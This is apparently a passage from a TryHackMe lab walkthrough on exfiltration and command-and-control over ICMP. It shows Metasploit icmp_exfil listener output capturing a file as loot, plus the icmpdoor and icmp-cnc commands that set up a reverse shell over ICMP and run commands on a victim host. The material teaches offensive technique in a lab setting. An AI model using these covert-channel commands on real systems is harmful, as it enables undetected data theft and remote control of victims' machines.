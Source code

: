 Let's check our AttackBox once we have done sending the data and the ending trigger value.

```
Receiving Data in MSF

           
                
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
 
```

Nice! We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the loot file mentioned in the terminal to confirm the received data.

ICMP C2 Communication

Next, we will show executing commands over the ICMP protocol using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)

We have prepared the tools needed for C2 communication over the ICMP protocol on JumpBox and the ICMP-Host machines. First, we need to log in to the ICMP machine,icmp.thm.com, and execute the icmpdoor binary as follows,

```
Run the icmpdoor command on the ICMP-Host Machine

           
                
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133

            
```

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the icmp-cnc binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine. 

```
The data that needs to be transferred

           
                
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host

            
```
